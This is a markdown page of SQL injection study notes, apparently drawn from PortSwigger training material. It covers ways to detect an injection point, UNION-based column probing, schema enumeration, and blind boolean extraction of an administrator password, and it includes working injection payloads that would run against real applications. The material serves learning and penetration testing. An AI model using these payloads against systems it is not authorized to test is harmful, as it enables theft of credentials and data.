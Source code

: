 # SQL injection

<details>
<summary>$\huge{\text{SQL Injection Cheatsheet}}$</summary>

- https://tib3rius.com/sqli
    
<br>
</details>

<details>
<summary>$\huge{\text{How to detect SQL injection vulnerabilities}}$</summary>

- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection in different parts of the query}}$</summary>

- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)
    
<br>
</details>

<details>
<summary>$\huge{\text{Warning: OR 1=1 }}$</summary>

- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.
    
<br>
</details>

<details>
<summary>$\huge{\text{SQL injection UNION attacks}}$</summary>

- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query
    
<br>
</details>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Determining the number of columns required}}$</summary>

- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Database-specific syntax}}$</summary>

- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Finding columns with a useful data type}}$</summary>

- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

<br>
</details>
</dd></dl></dd></dl>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Examining the database}}$</summary>

| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - |TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
      | -- | -- | -- | -- |
      | MyDatabase | dbo | Products | BASE TABLE |
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - | TABLE_CATALOG |TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
      | -- | -- | -- | -- | -- |
      |MyDatabase | dbo | Users | UserId | int |
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
    - `SELECT TABLE_NAME FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    - `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

<br>
</details>
</dd></dl></dd></dl>


<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Retrieving multiple values within a single column}}$</summary>

- You can retrieve multiple values together within this single column by concatenating the values together
- `' UNION SELECT username || '~' || password FROM users--`
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

<br>
</details>
</dd></dl></dd></dl>

<details>
<summary>$\huge{\text{Blind SQL Injection}}$</summary>

- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
    
<br>
</details>

<dl><dd><dl><dd>
<details>
<summary>$\huge{\text{Exploiting blind SQL injection by triggering conditional responses}}$</summary>

- `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  - …xyz' AND '1'='1
    - The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed. 
  - …xyz' AND '1'='2
    - The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
- Extract data one piece at a time
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    - This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    -  This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  - `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    - ... Confirm that the first character of the password is `s`
  - We can continue this process to systematically determine the full password for the Administrator user.
- `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

<br>
</details>
</dd></dl></dd></dl>


